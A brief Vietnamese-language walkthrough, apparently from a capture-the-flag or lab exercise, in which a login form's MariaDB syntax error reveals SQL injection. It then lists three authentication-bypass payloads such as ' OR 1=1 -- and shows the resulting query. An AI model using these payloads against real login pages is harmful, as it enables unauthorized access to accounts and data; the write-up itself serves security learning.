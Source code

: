 ![alt text](./src/image-1.png)
Server báo lỗi `You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '''' AND password=''' at line 1` <br>
=> Web có thể bị tấn công SQL Injection
Sử dụng các payload sau để bypass:
```
' OR 1=1 --
' OR 1=1#
' OR 1=1+ - +
```
Và câu query lúc này sẽ là 
`SELECT * FROM users WHERE username = ‘admin’ ' or 1=1#  ‘ AND password=’password’` <br>